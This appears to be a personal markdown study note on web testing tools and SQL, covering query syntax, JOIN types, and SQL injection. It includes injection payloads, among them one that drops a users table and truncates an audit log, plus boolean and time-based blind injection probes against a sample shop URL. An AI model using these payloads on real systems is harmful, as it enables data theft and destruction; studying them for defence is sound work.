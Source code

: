 ### HTTP
1. OWASP ZAP
2. BURPSUIT

---

### SQL injection 
1. Data Manipulation Language (DML)

    `SELECT, UPDATE, DELETE, INSERT`
    
    `SELECT * FROM [table_name] WHERE [column_name]=[value];`
    
    `UPDATE [table_name] SET [column_name]=[value] WHERE [another_column_name]=[value];`

2. Data Definition Language (DDL)

    `CREATE, ALTER, DROP`
    
    `ALTER TABLE [table_name] ADD [new_column_name] [data_type];`

3. Data Control Language (DCL)
    
    `GRANT, REVOKE`
    
    `GRANT ALL ON [table_name] to [user_name];`
    
    `GRANT SELECT, INSERT, UPDATE, DELETE ON [table_name] to [user_name];`

4. SQL Injection
    
    Server
    `SELECT * FROM users WHERE name = '[user_input]';`
    
    Injections
    
    `Bob' or '1'='1`
    
    `Bob' or 1=1; --`   
    
    `Bob'; DROP TABLE users; TRUNCATE audit_log; --`

5. SQL JOIN

    Combine rows from multiple tables.
    - `SELECT [table_A].[column_x], [table_B].[column_y] FROM [table_A] INNER JOIN [table_B] ON [table_A].[column_id] = [table_B].[column_id]`
    
    - JOIN: information on both tables.
    - INNER JOIN: IDs(the id row) of the Intersection of the common IDs. (no NULL if origin tables have no NULL)
    - LEFT JOIN: IDs of the table_A. (with information on table_B if it has the id, or filled with NULL)
    - RIGHT JOIN: IDs of the table_B. (with information on table_A if it has the id, or filled with NULL)
    - FULL JOIN: IDs of the both tables. (combine of LEFT JOIN and RIGHT JOIN)

6. Blind SQL Injection

    ```
       Normal request
       https://my-shop.com?article=4
       Test request
       https://my-shop.com?article=4 AND 1=1
       If response is same, the server takes "AND 1=1" as code.
       So it is vulnerable.
       Exploit
       https://my-shop.com?article=4 AND substring(database_version(),1,1) = 2
       try out the database version even dump the database.
    ```
    
    ```
    Time based
    article=4; sleep(10 --)
    When ture and false`s return are same, we can use time to diffirentiate them.
    ```
    
---
